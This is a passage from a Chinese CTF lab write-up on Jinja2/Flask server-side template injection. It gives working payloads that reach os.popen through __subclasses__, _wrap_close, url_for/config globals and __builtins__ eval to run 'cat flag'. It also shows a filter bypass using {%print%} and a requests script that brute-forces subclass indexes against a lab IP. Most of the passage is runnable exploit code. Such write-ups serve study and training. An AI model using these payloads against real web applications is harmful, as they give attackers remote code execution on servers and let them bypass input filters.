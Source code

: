 也可以利用它的循环语句来进行获取 flag

```plain
{%for i in ''.__class__.__base__.__subclasses__()%}{%if i.__name__ =='_wrap_close'%}{%print i.__init__.__globals__['popen']('cat flag').read()%}{%endif%}{%endfor%}
```

不想找类的话，这里可以偷懒一下，用`__builtins__`模块来进行 RCE

```plain
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
```

[![在这里插入图片描述](assets/1698900310-ec287f4c53d7806410a7250867078dae.png)](https://storage.tttang.com/media/attachment/2022/08/14/ffc7dd18-a845-4c92-8eba-73a15c36ea1e.png)  
利用这个模块的话，还有其他几种 payload 方式，罗列如下

```plain
{{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
{{config.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
```

### [level 2](#toc_level-2)

[![在这里插入图片描述](assets/1698900310-8304196e3ff53b9493c0e965a20f0e2d.png)](https://storage.tttang.com/media/attachment/2022/08/14/4ba8967c-2ac8-4af3-a6b0-4032d10b8097.png)

过滤了`{{`  
这个时候可以考虑用`{%`,利用上关的思路，多加个 print 就可以  
简单修改一下脚本

```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://192.168.134.132:5000/level/2"
        data={"code":'{%print(().__class__.__bases__[0].__subclasses__()['+str(i)+'])%}'}
        res = requests.post(url=url,data=data, headers=headers)
        #print(res.text)
        if 'os._wrap_close' in res.text:
            print(i)
    except:
        pass
```
